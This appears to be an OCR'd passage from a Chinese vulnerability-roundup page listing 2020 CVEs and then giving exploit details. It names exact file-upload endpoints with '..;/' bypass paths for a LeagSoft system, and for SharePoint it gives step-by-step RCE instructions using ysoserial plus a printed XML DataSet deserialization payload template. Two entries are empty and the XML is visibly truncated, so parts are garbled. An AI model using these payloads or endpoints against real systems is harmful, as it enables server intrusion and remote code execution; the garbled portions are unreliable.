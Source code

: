 110.CNNVD-202009-1175  
112.CVE-2020-1350 Microsoft Windows Server DNS Server 缓冲区错误漏洞  
113.PHPCMS V9 存在 RCE 漏洞  
114.QEMU-KVM 越界读写漏洞  
115.Cochip 无线路由器绕过认证泄露账号密码漏洞  
116.CVE-2020-4450 WebSphere 远程代码执行漏洞  
117.CVE-2020-13933 Apache shiro 权限绕过漏洞

**来自** **IDLab** **整理的漏洞详情**

#### **01. 联软任意文件上传漏洞**

```
已知存在漏洞的url如下：http://IP:80/uai/newDevRegist/updateDevUploadinfo.htm（只有201904-1SP起才存在该漏洞）http://IP:80/uai/download/uploadfileToPath.htm（受影响的版本都存在该漏洞）http://IP:80/uai/newDevRegist/newDevRegist/newDevRegist/..;/..;/updateDevUploadinfo.htm（只有201904-1SP起才存在该漏洞）http://IP:80/uai/download/download/download/..;/..;/uploadfileToPath.htm （受影响的版本都存在该漏洞）
```

#### **02. 网瑞达资源访问控制系统命令执行漏洞**

```
br
```

#### **03.Exchange Server 远程代码执行漏洞**

```
br
```

#### **04.SharePoint 远程代码执行漏洞**

1. 使用 ysoserial 工具生成 payload

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0Oicx8r0SrndlJW341WghcxY8mV5GJxQSpuZblHrlwXMCGjdS7iay2ZF4g/640?wx_fmt=png)

2. 将生成的 payload 拼接到 poc

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0OTlfk0ftMWNbtcnzmYsJoo48mFDsxLnZrFHzrOicOPKJH0gQeXp8sFxA/640?wx_fmt=png)

3. 服务器 iis 主进程中启动了 calc.exe

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0Ou4dt8xTCWTTgIdr0BE0pZ94KU1EOmlQ7B8BDOIoX3EOibAmAtHFvicHw/640?wx_fmt=png)

pox.xml

```
<DataSet>  <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">    <xs:element System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>              </xs:sequence>            </xs:complexType>          </xs:element>        </xs:choice>      </xs:complexType>    </xs:element>  </xs:schema>  <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">    <somedataset>      <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">        <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">        <ExpandedElement/>        <ProjectedProperty0>            <MethodName>Deserialize</MethodName>            <MethodParameters>                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>            </MethodParameters>            <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>        </ProjectedProperty0>        </pwn>      </Exp_x0020_Table>    </somedataset>  </diffgr:diffgram></DataSet>
```
